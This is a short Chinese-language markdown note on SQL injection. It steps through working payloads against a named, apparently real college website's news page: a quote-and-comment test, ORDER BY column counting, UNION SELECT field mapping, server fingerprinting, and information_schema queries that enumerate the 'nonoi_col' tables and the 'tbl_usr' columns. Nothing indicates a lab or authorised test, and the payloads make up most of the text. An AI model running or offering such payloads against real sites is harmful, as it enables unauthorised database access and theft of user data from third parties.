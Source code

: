 sql 注入

 判断 该sql注入点 是 字符串还是数值型， `  通过在url后面添加 '-- `     来判断

如：`https://nonoicollege.in/view_news.php?nid=21'-- `





- order 5 ： 按照 select的 第五个字段排序。 可以判断该sql的select的字段个数。

- 查看页面具体展示内容对应的字段 `https://nonoicollege.in/view_news.php?nid=30 union select 1,2,3,4`

  <img src="C:\Users\YDS\AppData\Roaming\Typora\typora-user-images\image-20210627152755992.png" alt="image-20210627152755992" style="zoom:50%;" />

- user(),version() , @@basedir,database(), 分别是 获取当前的用户和数据版本 

  <img src="C:\Users\YDS\AppData\Roaming\Typora\typora-user-images\image-20210627152954605.png" alt="image-20210627152954605" style="zoom:50%;" />

  <img src="C:\Users\YDS\AppData\Roaming\Typora\typora-user-images\image-20210627153137532.png" alt="image-20210627153137532" style="zoom:50%;" />

- `select 1,table_name,database(),4 from information_schema.tables where table_schema= 'nonoi_col'` 查询该数据库下所有的表名 

  <img src="C:\Users\YDS\AppData\Roaming\Typora\typora-user-images\image-20210627153601154.png" alt="image-20210627153601154" style="zoom:50%;" />

- group_concat(table_name) 来让多个记录的该字段合为一个string 输出。

  <img src="C:\Users\YDS\AppData\Roaming\Typora\typora-user-images\image-20210627153911250.png" alt="image-20210627153911250" style="zoom:50%;" />

- 根据表名，获取该表的字段 ` select 1,group_concat(column_name),database(),4 from information_schema.columns where table_schema= 'nonoi_col' and table_name ='tbl_usr'`  

  <img src="C:\Users\YDS\AppData\Roaming\Typora\typora-user-images\image-20210627154244540.png" alt="image-20210627154244540" style="zoom:50%;" />

- 

